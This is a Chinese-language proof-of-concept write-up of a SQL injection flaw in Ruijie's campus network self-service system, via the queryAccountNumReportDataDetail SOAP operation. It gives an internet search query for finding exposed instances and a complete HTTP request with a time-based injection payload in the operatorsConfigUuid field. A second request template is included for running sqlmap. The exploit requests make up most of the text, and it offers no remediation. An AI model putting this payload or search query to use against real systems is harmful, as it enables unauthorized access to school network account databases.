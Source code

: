 # 锐捷网络股份有限公司校园网自助服务系统queryAccountNumReportDataDetail存在SQL注入漏洞

# 一、漏洞简介
锐捷网络股份有限公司校园网自助服务系统queryAccountNumReportDataDetail存在SQL注入漏洞。

# 二、影响版本
+ 锐捷网络股份有限公司校园网自助服务系统

# 三、资产测绘
+ hunter`app="校园网自助服务系统"`
+ 特征

![1698596756667-deb61ce2-460f-4df0-bfb5-037838f17027.png](./img/VkEN-dwHXTrP9O5n/1698596756667-deb61ce2-460f-4df0-bfb5-037838f17027-798744.png)

# 四、漏洞复现
```plain
POST /selfservice/service/operatorReportorRoamService HTTP/1.1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: JSESSIONID=42E7A33A54CABB1580E34F01B3D63480; JSESSIONID=0616C2E6B689FD5702EE3E2203D660FB
Connection: close
SOAPAction: 
Content-Type: text/xml;charset=UTF-8
Host: 
Content-Length: 873

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:ser="http://service.webservice.common.spl.ruijie.com" xmlns:dom="http://domain.service.webservice.common.spl.ruijie.com">
   <soapenv:Header/>
   <soapenv:Body>
      <ser:queryAccountNumReportDataDetail>
         <ser:in0>
            <!--type: dateTime-->
            <dom:endTime>2008-09-29T09:49:45</dom:endTime>
            <!--type: int-->
            <dom:limit>3</dom:limit>
            <!--type: int-->
            <dom:offSet>3</dom:offSet>
            <!--type: string-->
            <dom:operatorsConfigUuid>aeoliam venit';WAITFOR DELAY '0:0:5'--</dom:operatorsConfigUuid>
            <!--type: dateTime-->
            <dom:startTime>2014-06-09T23:15:04+08:00</dom:startTime>
         </ser:in0>
      </ser:queryAccountNumReportDataDetail>
   </soapenv:Body>
</soapenv:Envelope>
```

![1713339788088-ab68d76f-65e0-4f00-beae-f05e2e7d6fad.png](./img/VkEN-dwHXTrP9O5n/1713339788088-ab68d76f-65e0-4f00-beae-f05e2e7d6fad-278254.png)

sqlmap

```plain
POST /selfservice/service/operatorReportorRoamService HTTP/1.1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: JSESSIONID=42E7A33A54CABB1580E34F01B3D63480; JSESSIONID=0616C2E6B689FD5702EE3E2203D660FB
Connection: close
SOAPAction: 
Content-Type: text/xml;charset=UTF-8
Host: 
Content-Length: 873

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:ser="http://service.webservice.common.spl.ruijie.com" xmlns:dom="http://domain.service.webservice.common.spl.ruijie.com">
   <soapenv:Header/>
   <soapenv:Body>
      <ser:queryAccountNumReportDataDetail>
         <ser:in0>
            <!--type: dateTime-->
            <dom:endTime>2008-09-29T09:49:45</dom:endTime>
            <!--type: int-->
            <dom:limit>3</dom:limit>
            <!--type: int-->
            <dom:offSet>3</dom:offSet>
            <!--type: string-->
            <dom:operatorsConfigUuid>aeoliam venit</dom:operatorsConfigUuid>
            <!--type: dateTime-->
            <dom:startTime>2014-06-09T23:15:04+08:00</dom:startTime>
         </ser:in0>
      </ser:queryAccountNumReportDataDetail>
   </soapenv:Body>
</soapenv:Envelope>
```

![1713339819071-b490ef2d-3d5c-4618-9666-2b16a9bd8972.png](./img/VkEN-dwHXTrP9O5n/1713339819071-b490ef2d-3d5c-4618-9666-2b16a9bd8972-518241.png)



> 更新: 2024-06-24 11:42:27  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/xtp0qz0at8exgx9o>